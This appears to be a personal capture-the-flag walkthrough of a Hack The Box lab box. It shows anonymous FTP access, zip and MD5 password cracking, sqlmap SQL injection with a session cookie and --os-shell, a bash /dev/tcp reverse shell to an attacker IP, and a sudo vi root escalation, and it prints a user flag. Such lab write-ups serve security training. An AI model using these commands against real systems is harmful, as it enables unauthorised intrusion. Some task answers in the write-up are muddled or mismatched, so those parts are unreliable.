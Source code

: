 ###### Task 1

Besides SSH and HTTP, what other service is hosted on this box?

Using nmap we can enumerate the network:

nmap -sV -sC 10.129.95.174

Results show open ports for 21 ftp, 22 ssh, and 80 http.

###### Task 2

This service can be configured to allow login with any password for specific username. What is that username?

The FTP service can be exploited using the user name anonymous with a blank username. 

###### Task 3

What is the name of the file downloaded over this service?

Logging in via anonymous FTP we can see the file backup.zip

This can be obtained using the command

`get backup.zip`


###### Task 4

What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?

http://10.129.95.174/dashboard.php?id

###### Task 5

What is the password for the admin user on the website?

Using zip2john, we uncovered the password hashes for the zip file.
saving those hashes, then using john to crach them revvealed the password for the zip file.

unziping the file reveals the index.php file
enumerating its contents reveals the md5 hash for the admin password. 
![[Pasted image 20241106045424.png]]
using crackstation.com the md5 decrypted to 'qwerty789'

###### Task 6

What option can be passed to sqlmap to try to get command execution via the sql injection?

In sqlmap the --os-shell cmd will spawn a shell

this can be done by exploiting the web servers search function and the admin's cookie once logged in. 
The cookies can be seen using the inspect option on firefox., the construct the sqlmap injection

use the command

`sqlmap -u "http://10.129.95.174/dash`
`board.php?search=any" --cookie="PHPSESSID=gbj468o179li3aued95hbkspkm" --os-shell`
will spawn a os-shell

we can better navigate by spawning our own interactive shell. 

using a bash script:
`bash -c "bash -i >& /dev/tcp/10.10.15.12/4444 0>&1"` will spawn a more stable shell
![[Pasted image 20241106050051.png]]

This will spawn a shell on our netcat listener

navigating through the postgres@vaccine user we will see the user.txt file located in the var/lib/postgresql directory.

enumerating the file will reveal the flag.

user flag: ec9b13ca4d6229cd5cc1e09980965bf7

navigating to the webpage directory with the postgres user we can enumerate the dashboard.php file, the file used to login. 

Here we will see the login fo pg_connect which is the connection to the PostgreSQL database
![[Pasted image 20241106051636.png]]

we can connect using this information to the servers open ssh port using:
`ssh postgres@10.129.193.212`
then logging in with the password 

Using sudo -l we can see that the postgres user has sudo privileges using vi at a given location 
![[Pasted image 20241106052225.png]]

we will run this command and inject a shell. 

We can now run:
`sudo /bin/vi /etc/postgresql/11/main/.pg_hba.conf`

once in vi we can inject a common vi bash shell using:

`:!/bin/bash`

This shell can be found at GTFO bins
https://gtfobins.github.io/gtfobins/vi/#shell

This will give us root access, we can now navigate to /root and enumerate the root.txt file for the flag. 

